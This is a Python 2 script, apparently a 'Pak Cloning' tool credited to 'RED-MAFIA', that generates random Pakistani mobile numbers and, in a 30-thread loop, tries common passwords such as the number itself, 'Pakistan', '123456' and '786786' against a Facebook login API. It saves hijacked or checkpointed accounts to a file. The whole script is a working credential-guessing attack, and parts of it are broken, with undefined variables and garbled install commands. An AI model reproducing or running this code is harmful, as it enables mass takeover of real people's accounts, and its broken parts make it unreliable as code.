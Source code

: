 # Yumietox#!/usr/bin/python2
#coding=utf-8
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(10000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('Then type: python2 boss404')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'Thanks.'
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(00000.1)
def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\x1b[1;93mPlease Wait \x1b[1;91m"+o),;sys.stdout.flush();time.sleep(1)


back = 0
oks = []
id = []
cpb = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"

os.system("clear")
print  """

                     
\033[1;94mFACEBOOK  Barun waiba
                  
\033[1;92mFB PAGE   Barun waiba

"""

####Logo####

logo1 = """
 

 ▄▄▄       ███▄ ▄███▓ ▄▄▄       ███▄    █ 
▒████▄    ▓██▒▀█▀ ██▒▒████▄     ██ ▀█   █ 
▒██  ▀█▄  ▓██    ▓██░▒██  ▀█▄  ▓██  ▀█ ██▒
░██▄▄▄▄██ ▒██    ▒██ ░██▄▄▄▄██ ▓██▒  ▐▌██▒
 ▓█   ▓██▒▒██▒   ░██▒ ▓█   ▓██▒▒██░   ▓██░
 ▒▒   ▓▒█░░ ▒░   ░  ░ ▒▒   ▓▒█░░ ▒░   ▒ ▒ 
  ▒   ▒▒ ░░  ░      ░  ▒   ▒▒ ░░ ░░   ░ ▒░
  ░   ▒   ░      ░     ░   ▒      ░   ░ ░ 
      ░  ░       ░         ░  ░         ░ 
                                          

 
███╗   ███╗ █████╗ ███████╗██╗ █████╗ 
████╗ ████║██╔══██╗██╔════╝██║██╔══██╗
██╔████╔██║███████║█████╗  ██║███████║
██║╚██╔╝██║██╔══██║██╔══╝  ██║██╔══██║
██║ ╚═╝ ██║██║  ██║██║     ██║██║  ██║
╚═╝     ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝
                                                                                      
                                                  

╔══──────────────────────────╗─══╗
║ OWNER 💓💓💓RED-MAFIA            ║║
║  GITHUB 💝💝💝 RIAZKHAN(RK)   ║ ║
║ FACEBOOK 💝💝💝RIAZ-HACKER ║ ║
║  ENJOY 💝💝💝Pak Cloning                ║ ║
║   Note 💝💝💝Use Fastest Speed NeT  ║ ║
╚══──────────────────────────╝─══╝

"""
logo2 = """

█
 ▄▄▄       ███▄ ▄███▓ ▄▄▄       ███▄    █ 
▒████▄    ▓██▒▀█▀ ██▒▒████▄     ██ ▀█   █ 
▒██  ▀█▄  ▓██    ▓██░▒██  ▀█▄  ▓██  ▀█ ██▒
░██▄▄▄▄██ ▒██    ▒██ ░██▄▄▄▄██ ▓██▒  ▐▌██▒
 ▓█   ▓██▒▒██▒   ░██▒ ▓█   ▓██▒▒██░   ▓██░
 ▒▒   ▓▒█░░ ▒░   ░  ░ ▒▒   ▓▒█░░ ▒░   ▒ ▒ 
  ▒   ▒▒ ░░  ░      ░  ▒   ▒▒ ░░ ░░   ░ ▒░
  ░   ▒   ░      ░     ░   ▒      ░   ░ ░ 
      ░  ░       ░         ░  
                                                            
                                                   
                         DON'T COPY MY SCRIPT
                                      RED-MAFIA          
                                        TNX(RK)
╔══──────────────────────────╗─══╗
║OWNER 💓💓💓Barun waiba                            ║
║  GITHUB 💝💝💝 YUMIEKILLER                     ║
║ FACEBOOK 💝💝💝Barun waiba                 ║
║  ENJOY 💝💝💝Pak Cloning                             ║
║   Note 💝💝💝Use Fastest Speed Net             ║
╚══──────────────────────────╝─══╝
"""
print("""
Owner: Barun waiba 
Facebook: Barun waiba 

""")
CorrectUsername = YUMIEKILLER
CorrectPassword = yumie 

loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;97m\x1b[1;91mTool Username \x1b[1;97m»» \x1b[1;97m")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;97m \x1b[1;91mTool Password  \x1b[1;97m» \x1b[1;97m")
        if (password == CorrectPassword):
            print "Logged in successfully as " + username 
	    time.sleep(2)
            loop = 'false'
        else:
            print "\033[1;94mWrong Password"
            os.system('xdg-https://wa.me/+923188214452')
    else:
        print "\033[1;94mWrong Username"
        os.system('xdg-https://wa.me/+923188214452')


numm = [5,2,5,2,2]
##### LICENSE #####
#=================#
def lisensi():
    os.system('clear')
    login()
####login#########
def login():
    os.system('clear')
    print logo1
    print "\033[1;93m[1]\x1b[1;91m══START ( \033[1;92m )"
    time.sleep(0.05)
    print "\033[1;95m[2]\x1b[1;96m ══EXIT "
    time.sleep(0.05)
    print '\x1b[1;94m[0]\033[1;91m ══BACK '
    pilih_login()

def pilih_login():
    peak = raw_input("\n\033[1;95m ══CHOOSE : \033[1;93m")
    if peak =="":
        print "\x1b[1;97mFill In Correctly"
        pilih_login()
    elif peak =="1":
        Zeek()
def Zeek():
    os.system('clear')
    print logo1
    print '\x1b[1;93m[1] ══START CLONING  '
    time.sleep(0.10)
    print '\x1b[1;92m[2] ══EXIT'
    time.sleep(0.10)
    print '\x1b[1;95m[0] ══BACK '
    time.sleep(0.10)
    print '\x1b[1;96m ════RK'
    time.sleep(0.10)
    print '\x1b[1;97m════RED-MAFIA'
    time.sleep(0.10)
    print '\x1b[1;91m ════DONT COPY MY SCRIPT'
    time.sleep(0.10)
    print '\x1b[1;94m════CP ID OPEN AFTER 3 DAYS ENJOY'
   
    time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;97m ══CHOOSE:\033[1;97m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "\033[1;94mEnter any Pakistan Mobile code Number"+'\n'
        print '\033[1;92mEnter any code 01 02 03 04 05 06 07 08 10 11 12 13 14 15 16 20 21 22 23 24 30 31 32 33 34 35 36 40 41 42 43 44 45 46 47 48 49'
        for i in numm:
            print('x' * i)
        try:
            c = raw_input("\033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;91m Total ids Accounts: '+xxx)
    jalan ('\033[1;92mSim code you choose: '+c)
    jalan ("\033[1;93mWait  Start Cracking...")
    jalan ("\033[1;94mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + nama + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;32m[RK-OK]  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="123456"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            


                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            



        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total CP/Ok: '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    print """



\033[1;96mThanks For Using My tool
\033[1;95mFb\033[1;97mRED-MAFIA"""

    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()
